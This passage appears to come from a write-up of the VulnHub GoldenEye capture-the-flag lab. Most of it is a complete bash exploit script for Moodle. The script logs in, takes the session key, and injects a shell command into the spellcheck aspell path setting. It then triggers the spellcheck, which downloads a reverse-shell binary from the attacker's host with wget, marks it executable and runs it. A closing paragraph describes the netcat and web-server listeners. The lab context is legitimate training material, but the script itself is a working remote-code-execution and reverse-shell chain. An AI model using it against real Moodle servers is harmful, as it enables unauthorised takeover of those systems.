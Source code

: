 ```bash

# Get cookie
curl -c cookie1 -o /dev/null -s http://$RHOST/$URI/index.php

# Login
curl -c cookie2 -b cookie1 -o /dev/null -s \
     -d "username=$USER&password=$PASS" \
     http://$RHOST/$URI/login/index.php

# Get 'sess'
SESS=$(curl -b cookie2 -s \
            http://$RHOST/$URI/$SECTION \
       | grep -Eo -m1 '?sesskey=.*"' \
       | cut -d'"' -f1 \
       | cut -d'=' -f2)

function trigger() {
  # Update spellcheck
  curl -b cookie2 -o /dev/null -s \
       --data-urlencode "section=systempaths" \
       --data-urlencode "sesskey=$SESS" \
       --data-urlencode "return" \
       --data-urlencode "s__gdversion=2" \
       --data-urlencode "s__pathtodu=/usr/bin/du" \
       --data-urlencode "s__aspellpath=$CMD" \
       --data-urlencode "s__pathtodot" \
       http://$RHOST/$URI/$SETTING

  # Trigger spellcheck
  curl -b cookie2 -o /dev/null -s \
       -H "Content-Type: application/json" \
       -d "$JSON" \
       http://$RHOST/$URI/$RPC
}

printf "[+] Pulling rev...";  CMD="sh -c 'wget -O /tmp/rev $LHOST/rev'"; trigger; printf "done\n"
printf "[+] chmod +x rev..."; CMD="sh -c 'chmod +x /tmp/rev'"; trigger; printf "done\n"
printf "[+] Executing rev...look at the SHELL window";CMD="sh -c '/tmp/rev'"; trigger;

# Clean up
rm cookie* 2>/dev/null
```

The script will open two listeners in `xterm`: 1) Python SimpleHTTPServer and 2) `nc` listener. It'll then transfer a reverse shell generated with `msfvenom` using `wget`, make it executable with `chmod`, and finally run the reverse shell.

For the exploit to work, the spell engine must be set to PSpellShell.


[1]: https://www.vulnhub.com/entry/goldeneye-1,240/
[2]: https://www.reddit.com/user/_creosote
[3]: https://www.vulnhub.com/